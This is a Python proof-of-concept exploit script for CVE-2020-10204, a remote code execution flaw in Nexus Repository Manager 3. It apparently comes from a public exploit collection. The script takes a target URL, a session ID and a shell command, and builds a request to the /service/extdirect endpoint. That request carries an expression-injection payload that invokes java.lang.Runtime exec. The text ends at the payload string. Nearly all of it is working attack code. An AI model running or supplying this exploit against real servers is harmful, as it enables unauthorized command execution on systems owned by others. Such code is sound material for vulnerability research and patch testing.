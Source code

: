 ### poc

    cve-2020-10204_cmd.py
    #!/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub

    import sys
    import requests

    if len(sys.argv)!=4:
        print('+---------------------------------------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                                                    +')
        print('+      CVE-2020-10204 Nexus Repository Manager 3 Remote Code Execution                                    +')
        print('+---------------------------------------------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <url> <session> <cmd>                                                           +')
        print('+ EXP: python3 cve-2020-11444_exp.py http://ip:8081 6c012a5e-88d9-4f96-a05f-3790294dc49a "touch /tmp/233" +')
        print('+ VER: Nexus Repository Manager 3.x OSS / Pro <= 3.21.1                                                   +')
        print('+---------------------------------------------------------------------------------------------------------+')
        sys.exit(0)

    url = sys.argv[1]
    vuln_url = url + "/service/extdirect"
    session = sys.argv[2]
    cmd = sys.argv[3]

    headers = {
        'accept': "application/json",
        'User-Agent': "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36",
        'NX-ANTI-CSRF-TOKEN': "0.856555763510765",
        'Content-Type': "application/json",
        'Cookie': "jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID="+session+""
    }
    data = """
    {"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('%s')}"],"roles":[]}],"type":"rpc","tid":89}
    """ % cmd
